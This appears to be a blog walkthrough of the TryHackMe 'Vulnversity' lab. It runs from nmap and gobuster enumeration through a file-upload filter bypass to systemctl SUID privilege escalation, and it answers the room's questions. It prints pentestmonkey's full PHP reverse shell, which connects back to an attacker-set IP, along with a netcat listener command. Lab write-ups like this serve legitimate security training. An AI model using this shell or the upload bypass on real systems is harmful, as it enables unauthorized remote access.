





# <center>Vulneversity</center>
<p align='center'></p>

Hey cyberfreaks, today we will look into easy category THM machine Vulnversity. I will help you to solve the machine. So, stay tuned!

Let's start the machine first, by clicking on the start machine button. We will be shown with machine_ip after 1 min.

## Phase 1: Reconnaissance
 
Now, we have got machine ip. so let's start with some reconnaissance. We will use `Nmap` tool for this.

```bash
┌──(cryptoish㉿kali)-[~]
└─$ nmap -Pn -sC -sV  10.10.14.235 -T4 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 22:04 IST
Nmap scan report for 10.10.14.235
Host is up (0.21s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-08-24T16:35:00
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2024-08-24T12:35:00-04:00
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.01 seconds
```
### Findings
- Nmap result showed total 6 ports opened.
- ssh,ftp and smb running on their usual ports
- http is running on port 3333
- Target system is running on Ubuntu

**Q1. Scan the box; how many ports are open?**
- **Ans** `6`

**Q2. What version of the squid proxy is running on the machine?**
- **Ans** `3.5.12`

**Q3. How many ports will Nmap scan if the flag -p-400 was used?**
- **Ans** `400`



**Q4. What is the most likely operating system this machine is running?**
- **Ans** `Ubuntu`


**Q5. What port is the web server running on?**
-**Ans** `3333`

**Q6. What is the flag for enabling verbose mode using Nmap?**
- **Ans** `-v`
 
You can refer to this site for knowing more about Nmap.
[Nmap Documentation](https://nmap.org/book/man.html)

With this we have completed phase 1 of this machine. Now we will get into second phase which is Enumeration.

## Phase 2: Enumeration
Before using any automative tool for enumeration, first we will look into the site. As we know http is running on port 3333, so we will type `machine_ip:3333` on our browser.

We will be responded with page like this:


After going through every nav menu and fuzzing for aa while in looking source code, nothing important was found on the page. So, we will now use gobuster tool to find if any hidden directories are there.

If you don't have gobuster installed on your machine, you can simply install it by:
`sudo apt-get install gobuster`

To know more about gobuster we can refer to this documentation.[ gobuster Documentation](https://hackertarget.com/gobuster-tutorial/)

```bash
┌──(cryptoish㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt --no-error -u http://10.10.14.235:3333 -t 10
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.235:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.14.235:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.14.235:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.14.235:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 322] [--> http://10.10.14.235:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.14.235:3333/js/]
/server-status        (Status: 403) [Size: 302]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

Uhh, we found something there, Webpage has /internal directory. Let's look into that.

After visiting the `machine_ip:3333/internal`, we were responded with upload page.

**Q7. What is the directory that has an upload form page?**
- **Ans** `/internal/`

With tha we have completed out phase 2.

## Phase 3: Exploitation
We have found upload page in the website, now let's try uploading some revshell to gain machine access.
For that we need download revshell code. let's visit [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
 
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
Copy this code into a file with .php extension. Remember to change the ip_address with your system ip. For that go to terminal and type: `ifconfig`.

Now let's try to upload the code into the page. Shh! we were responded with extension not allowed message.

**Q8. 
What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.**
- **Ans** `.php`

So, what to do now?
Hmm, let's try finding which extensions are allowed to upload. We can try some more extensions given on the room.
After trying couple of them, success message was shown on the page but we didn't get reverse shell. It's because automatic running of the file is disabled, so we have to manually trigger it but we don't know where the file was saved. So, let's try enumerating some more directory using gobuster but this time base address will be `machine_ip:3333/internal`. From gobuster we found out /uploads and then after executing our .phtml file we will get reverse shell.

Remember to fire up `nc -lvnp 1234` on you system to gain reverse shell.

**Q9. What extension is allowed after running the above exercise?**
- **Ans** `.phtml`

After getting reverse shell we can go to home directory and then execute `ls` command to see all users.

**Q10. What is the name of the user who manages the webserver?**
- **Ans** `bill`

Go to bill's directory from there `cd bill` and that's where we will get our user flag.

**Q11. What is the user flag?**
- **Ans** 
  


With that we have completed phase 3.

## Phase 4: Privilege Escalation
Now that we have gained access to the machine, next thing to do is to esclate the privilege and become super user(root).

Since the room gave hint for SUID, let's find those files which have SUID bit set.

`find / -perm -u=s -type f 2>/dev/null`

- `find` : command to find some files or directories.
- `/` : start searching from base directory i.e /
- `-perm` : This option is used to specify the file permissions to match.
- `-u=s` : This looks for files that have the setuid bit set. The setuid bit allows a file to be executed with the privileges of the file's owner, rather than the privileges of the user running the file.
- `-type f` : This option restricts the search to regular files (as opposed to directories or other types of files).
- `2>/dev/null` : Redirect error to /dev/null.

Below code snipnet shows the output of above command:


Here we have got some unusual file that can be run with root privilege. Let's search for escalation technique of `systemctl` in [GTFObin](https://gtfobins.github.io/).

**Q12. On the system, search for all SUID files. Which file stands out?**
- **Ans** `/bin/systemctl`

From there we got this command to run:


Here, we can see that command id was sucessfully run by root user. So, instead of `id` we can give `cat /root/root.txt` to execute as root and value will be stored on output file after execution.

With that we got our final flag root.txt.

**Q13. What is the root flag value?**
- **Ans**
  

That's all for this today, we will meet with some other interesting machines.
keep hacking till then!


   